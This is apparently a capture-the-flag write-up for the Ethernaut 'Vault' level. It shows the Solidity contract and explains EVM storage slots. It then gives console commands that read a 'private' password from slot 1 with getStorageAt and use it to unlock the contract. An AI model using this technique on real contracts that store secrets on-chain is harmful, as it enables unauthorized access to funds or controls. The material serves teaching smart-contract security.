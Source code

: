 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel8.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

Challange's message.

>Unlock the vault to pass the level!

We have an contract which has type of bool variable called **locked** and type of **bytes** variable named **_password_** that defined in constructor(). What is more, there is **unlock()** function which checks _password we entered. If we entered correct password, unlocked will be **false** so we will beat this level.

## Smart Contract's Storage

Each smart contract running in the Ethereum Virtual Machine (EVM) maintains state in its own permanent storage. This storage can be thought of as a very large array, initially full of zeros. Each value in the array is 32-bytes wide, and there are 2256 such values. A smart contract can read from or write to a value at any location. That’s the extent of the storage interface.

<img src="https://programtheblockchain.com/storage/storage.png">

For example, we have a basic contract called **StorageTest** which helps us to understand how smart contract's storage works.


```solidity
contract StorageTest {
    uint256 a;
    bytes32 b;
}
```

In the above code:
+ ```a``` is stored at **slot 0**. 
+ ```b``` is stored at **slot 1**.

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Vault/img/storage.png">

## Accessing Private Variabes In Storage



# Subverting

```shell
await contract.locked()
true
```

```shell
var pass = await web3.eth.getStorageAt(contract.address,1,console.log)
```

```shell
await web3.utils.hexToUtf8(pass)
'A very strong secret password :)'
```
```shell
await contract.unlock(pass)
```
```shell
await contract.locked()
false
```

**_by wasny0ps_**

